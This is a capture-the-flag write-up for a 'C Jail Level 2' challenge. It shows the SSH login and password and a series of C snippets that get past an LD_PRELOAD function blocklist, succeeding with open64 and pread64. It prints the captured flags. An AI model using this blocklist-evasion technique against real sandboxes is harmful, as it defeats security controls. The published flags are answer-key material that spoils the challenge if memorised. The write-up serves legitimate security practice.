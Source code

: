 # Level 2

![](https://i.imgur.com/g8JCYSl.png)

```shell
ssh level2@challenges.ringzer0team.com -p 10229 
password: FLAG-ql3mI2Z8fGq56kK5QdwK8oMxgWwvji8R

RingZer0 Team Online CTF

C Jail Level 2:
Current user is uid=1001(level2) gid=1001(level2) groups=1001(level2)

Flag is located at /home/level2/flag.txt

Challenge instruction:
-----------------------------

Type DONE to compile and execute your binary.


Your payload will be compiled that way:
gcc -O3 -Wall -fstack-protector-all -fPIE bin.c -o bin

Your payload will be executed that way:
LD_PRELOAD=./override.so ./bin

You only control the content of a function.

Here's the default includes
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>
#include <sys/stat.h>

You CANNOT use the "asm" keyword

-----------------------------
Your C code:
```

Like `Level 1`:
* `-O3` means optimize. 
* `-Wall` mean print all warning. 
* `–fstack-protector-all` add and check canary into every function. 
* `-fPIE` random the virtual memory which it reflect to.

Let's try what function is overrided.

```
Your C code:
    char buffer[1024];
    FILE *fp;
    fp = fopen("flag.txt", O_RDONLY);
    fread(buffer, 1024, 0, fp);
    printf("flag: %s\n", buffer);
    fclose(fp);
DONE
*** Warning: "fopen" function is disabled
```

```
Your C code:
    char buffer[1024];
    FILE *fp;
    fp = fopen64("flag.txt", "r");
    fread(buffer, 1024, 0, fp);
    printf("flag: %s\n", buffer);
    fclose(fp);
DONE
*** warning: implicit declaration of function
*** Warning: "malloc" function is disabled
```

```
Your C code:
    char buffer[1024];
    int fd;
    fd = fdopen("flag.txt", O_RDONLY);
    pread(fd, buffer, 1024, 0);
    printf("flag: %s\n", buffer);
DONE
*** Warning: "fdopen" function is disabled
*** Warning: "pread" function is disabled
```

```
Your C code:
    char buffer[1024];
    int fd;
    fd = open("flag.txt", O_RDONLY);
    read(fd, buffer, 1024);
    printf("flag: %s\n", buffer);
    close(fd);
DONE
*** Warning: "open" function is disabled
*** Warning: "read" function is disabled
```

```
Your C code:
    char buffer[1024];
    int fd;
    fd = open64("flag.txt", O_RDONLY);
    pread64(fd, buffer, 1024, 0);
    printf("flag: %s\n", buffer);
    close(fd);
DONE
flag: FLAG-0416ewrN2o058901Aqf4w9hsyH0dfqzd
```

```
Your C code:
    char buffer[1024];
    FILE *fp;
    fp = popen("flag.txt", 'r');
    while (fgets(buffer, 1024, fp) != NULL)
        printf("flag: %s", buffer);
    pclose(fp);    
DONE
*** Warning: "malloc" function is disabled
/home/level2/prompt.sh: line 81:  5986 Segmentation fault      LD_PRELOAD=/home/level2/override.so /tmp/$filename/bin
```

```
Your C code:
    char buffer[1024];
    int fd;
    fd = creat("flag.txt", O_RDONLY);
    pread64(fd, buffer, 1024, 0);
    printf("flag: %s\n", buffer);
    close(fd);
DONE
*** Warning: "creat" function is disabled
```

```
Your C code:
    char buffer[1024];
    int fd;
    fd = creat64("flag.txt", O_RDONLY);
    pread64(fd, buffer, 1024, 0);
    printf("flag: %s\n", buffer);
    close(fd);
DONE
*** warning: implicit declaration of function ‘creat64’ 
```

`open()` and `open64()`use the open syscall internally. The main difference is that `open64()` is equivalent to `open()` with `O_LARGEFILE` in order to support large files in 32 bit applications.

```
FLAG-0416ewrN2o058901Aqf4w9hsyH0dfqzd
```
